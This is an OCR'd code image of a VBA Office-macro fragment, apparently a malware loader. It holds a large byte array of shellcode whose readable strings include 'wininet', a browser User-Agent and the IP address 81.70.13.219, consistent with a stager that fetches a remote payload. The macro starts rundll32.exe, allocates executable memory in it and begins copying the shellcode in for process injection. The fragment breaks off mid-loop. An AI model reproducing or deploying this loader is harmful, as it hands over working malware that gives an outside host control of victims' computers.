 ```plaintext
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1, _
-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
-43,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-124,0,0,0,91,49,-55,81,81,106,3,81,81,104,-72,34,0,0,83,80,104,87,-119,-97, _
-58,-1,-43,-21,112,91,49,-46,82,104,0,2,64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61,80,49,-1,87,87,106,-1,83,86, _
104,45,6,24,123,-1,-43,-123,-64,15,-124,-61,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1, _
-43,49,-1,87,106,7,81,86,80,104,-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,116,-73,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,-117,-1, _
-1,-1,47,51,121,84,89,80,122,66,53,112,76,87,89,75,113,74,100,84,90,121,106,66,112,121,121,119,90,99,68,118,82,54,65,0,103,127,111,24, _
35,-49,-63,119,22,-20,-90,-2,-46,75,38,1,-88,-5,-4,60,115,-3,-65,-46,12,90,-3,42,119,-35,-11,57,-84,-47,-11,116,-25,48,-60,-70,5,57,-119,-96, _
-55,0,85,115,101,114,45,65,103,101,110,116,58,32,77,111,122,105,108,108,97,47,53,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77, _
83,73,69,32,49,48,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,54,46,50,59,32,87,79,87,54,52,59,32,84,114,105,100,101,110,116, _
47,54,46,48,59,32,77,65,71,87,74,83,41,13,10,0,126,119,-63,-74,-127,53,116,88,93,48,-2,68,119,-22,29,-29,76,48,-111,45,37,-14,-110,-49, _
-61,-72,111,75,-102,47,-47,-120,91,-82,-34,-78,9,-81,-116,87,112,25,9,51,-109,17,-128,-27,61,-70,-49,0,-106,26,-112,-101,-33,65,82,38,-36,-77,-62,53, _
-31,60,108,-57,101,-49,-26,-50,84,48,36,21,-62,-60,1,-18,38,-120,-113,-94,-96,106,11,4,112,-24,41,-70,-5,33,55,-49,126,-99,-120,-84,-55,60,-113,-48, _
17,123,-7,-55,3,70,90,66,-53,79,-30,46,-121,-96,-11,75,-111,-28,-123,108,121,-80,57,104,26,-41,25,58,-93,65,-100,98,59,-79,-6,77,-50,120,102,-69, _
33,24,111,-30,-63,120,49,-32,-52,68,-111,-106,51,-126,-51,67,-13,-61,-26,33,38,122,-10,-25,-97,-5,44,101,74,93,-70,-103,9,-28,89,89,74,44,-88,-23, _
-97,107,-12,81,106,-25,-81,122,-56,-38,-31,-33,114,-117,100,44,70,-6,-82,85,-95,-126,-106,-52,121,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0, _
104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43, _
-123,-64,116,-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-87,-3,-1,-1,56,49,46,55,48,46,49,51,46,50,49,57,0,0,1,-122,-96)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
```